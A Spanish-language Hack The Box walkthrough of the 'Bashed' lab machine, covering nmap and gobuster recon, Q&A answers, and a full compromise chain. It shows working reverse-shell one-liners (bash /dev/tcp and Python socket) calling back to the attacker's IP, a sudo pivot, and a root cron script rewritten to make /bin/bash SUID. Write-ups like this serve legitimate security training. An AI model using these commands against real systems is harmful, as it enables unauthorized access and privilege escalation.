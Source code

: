 ```yaml
---
title: Writeup bashed - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - bashed
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina bashed en Hack The Box.
keywords:
  - writeup bashed
  - hack the box bashed
  - resolución máquina bashed
  - bashed hack the box
  - htb bashed
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Bashed)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=sOtY0jF3HlA)|[Parte2](https://www.youtube.com/watch?v=fs7WfBYd5o8)
- 🧠 **Explicación resumida**: 

--------

#easy #linux #nmap #ping #reverseshell #tratamientotty #gobuster #sudo-l

-------
# Guided Mode

1)¿Cuántos puertos TCP abiertos están a la escucha en Bashed?
	1

2)¿Cuál es la ruta relativa en el servidor web a una carpeta que contiene phpbash.php?
	/dev

3)¿Con qué usuario se ejecuta el servidor web en Bashed?
	www-data

*La pregunta anterior era la flag de user.txt*
5)www-data puede ejecutar cualquier comando como usuario sin contraseña. ¿Cuál es el nombre de usuario de ese usuario?
	scriptmanager

6)¿A qué carpeta de la raíz del sistema puede acceder scriptmanager que www-data no puede?
	/scripts

7)¿Cuál es el nombre del archivo que se ejecuta cada dos minutos por root?
	test.py

------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.68
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.68 -oG allPorts
nmap -sCV -p80 10.10.10.68 -oN target
```

![[Bashed1.png]]

![[Bashed2.png]]
*TLL:* Maquina Linux
*Puertos:*
	`80` HTTP

-------
# [[Whatweb-wappalyzer]]

```shell
whatweb http:10.10.10.68
```

![[Bashed3.png]]
No nos da ninguna informacion relevante

------

# [[Gobuster]]

![[Bashed4.png]]
*Informacion Relevante:*
	Directorio */dev*

Busque con [[Gobuster]] por archivos php,txt y back. Pero la verdad no encontre nada

---------
# [[Reverse shell]] con python

El directorio que nos llama la atencion es http://10.10.10.68/dev. Entramos y vemos el archivo phpbash.php, ingresamos

![[Bashed7.png]]
Y es uan consola interactiva, como podemos ver estamos conectados con la maquina, asi que ahora vamos a mandar una [[Reverse shell]]

![[Bashed6.png]]
Ahora nos ponemos en escucha con [[nc -nlvp 443]]
Intentamos cargar el payload de ``bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'``  en esta consola interactiva que encontramos, pero no nos da conexion
Asi que vamos a probar hacer la [[Reverse shell]] con el payload de python
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.16.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```

![[Bashed8.png]]
Ya estamos dentro de la maquina

--------
# [[Tratamiento de la TTY]]

-----
# Escalada de privilegios a usuario scriptmanager con [[Abuso de Sudo]]

Con [[sudo]] usamos el comando `sudo -l`
```shell
sudo -l
```

Vemos que podemos correr el binario de scriptmanager sin usar contraseña
![[Bashed9.png]]

Ahora vamos a usar con [[sudo]] el comando ``sudo -u scriptmanager /bin/bash`` para ejecutar la bash como el usuario scriptmanager

![[Bashed10.png]]
Ahora estamos como scriptmanger

------
# Escalada de privilegios al usuario root

Con [[ls]] usamos el comando `ls -l` y vemos que como scriptmanager tenemos acceso a la carpeta scripts que esta en la raiz del sistema

![[Bashed11.png]]

Vemos que en esta carpeta hay un archivo *test.py* que abre el archivo test.txt, luego lo escribe y lo cierra, pero vemos despues que ejecutando [[ls]] con el comando `ls -l` que lo esta haciendo como root

![[Bashed12.png]]

Con [[nano]] vamos a abrir el *test.py* usando el comando `nano test.py` le vamos a poner el siguiente oneliner para hacer la bash [[SUID]]
```
import os; os.chmod("/bin/bash", 0o4755)
```

![[Bashed14.png]]
Despues vamos a ejecutar una [[bash]] con privilegios usando el comando `bash -p` y como es *SUID* ahora pasamos a ser el usuario *root*. Para posteriormente catear las flags
![[Bashed13.png]]